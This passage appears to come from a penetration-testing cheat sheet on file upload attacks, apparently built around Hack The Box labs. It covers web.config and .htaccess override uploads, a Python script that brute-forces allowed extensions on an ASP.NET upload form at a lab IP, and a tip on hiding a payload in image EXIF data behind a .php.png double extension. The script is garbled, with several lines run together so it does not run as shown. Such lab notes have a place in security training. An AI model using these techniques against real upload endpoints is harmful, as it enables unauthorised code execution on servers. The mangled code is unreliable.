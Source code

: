**Windows Server(IIS):**

*web.config* file upload is similar to the *.htaccess* file upload where these files overwrites the rules of server.
https://soroush.secproject.com/blog/tag/unrestricted-file-upload/
https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/

**Linux Server(Apache):**
*htaccess* file upload attack creted in Wormcon 0x01


#### Check which extensions are available

*extension.txt*
```txt
png  
jpg  
php  
php5  
php7  
phtml  
txt  
html  
asp  
aspx  
exe  
config  
js
```

Load this file in python script and run it.

*check.py*
```py
#!/usr/bin/python3import requests  
import sys  
import re  
from bs4 import BeautifulSoup  
url = "http://10.10.10.93/transfer.aspx"  
filename = "extension.txt"def upload(f):  
    s = requests.Session()  
    r = s.get(url)  
    #if r.status_code == 200:  
    #    print("[INFO] Checking...{0}".format(f))  
    #else:  
    #    print("[ERROR] Can't connect...")  
    #    sys.exit(1) p = BeautifulSoup(r.content, "html.parser") viewState = p.find(attrs = {'name' : '__VIEWSTATE'})['value']  
    eventValidation = p.find(attrs = {'name' : '__EVENTVALIDATION'})['value'] postData = {  
            '__VIEWSTATE' : viewState,  
            '__EVENTVALIDATION' : eventValidation,  
            'btnUpload' : 'Upload'  
            } uploadedFile = {'FileUpload1' : (f, 'test')} r = s.post(url, files=uploadedFile, data=postData)  
    return r.textprint("[INFO] Allowed Extensions:")for i in open(filename, 'r'):  
    #print(i[:-1])  
    response = upload('bigb0ss.' + i[:-1])  
    if "successfully" in response:  
        print("[+] %s" % i.strip())
```


## File upload in exifdata of the image

see Magic HTB, Networked HTB

Basically use exiftool and embed in comments and then rename the extrension to .png to .php.png